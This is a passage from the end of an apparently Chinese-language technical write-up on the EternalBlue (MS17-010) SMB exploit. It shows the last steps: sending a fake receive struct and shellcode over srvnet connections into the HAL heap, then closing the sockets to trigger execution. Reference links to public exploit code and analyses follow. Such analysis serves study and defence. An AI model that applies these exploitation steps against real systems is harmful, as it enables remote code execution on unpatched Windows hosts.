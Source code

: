 九、完成了越界后，借助srvnet覆盖后的MDL，向HAL's heap地址传入shellcode

```
	for sk in srvnetConn:
		sk.send(fake_recv_struct + shellcode)
```

十、最后断开链接触发命令执行：

```
	for sk in srvnetConn:
		sk.close()
```

参考：

https://github.com/worawit/MS17-010/blob/master/eternalblue_exploit7.py
https://www.slideshare.net/cisoplatform7/demystifying-ms17010-reverse-engineering-the-eternal-exploits

https://yi0934.github.io/2019/04/08/CVE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/ms17-010/

https://www.anquanke.com/post/id/87168

https://paper.seebug.org/280/ 

https://research.checkpoint.com/2017/eternalblue-everything-know/ 

https://blog.trendmicro.com/trendlabs-security-intelligence/ms17-010-eternalblue/ 

https://github.com/3ndG4me/AutoBlue-MS17-010/ 

https://www.schauer.fr/wp-content/uploads/2018/02/msrpc_null_sessions.pdf 



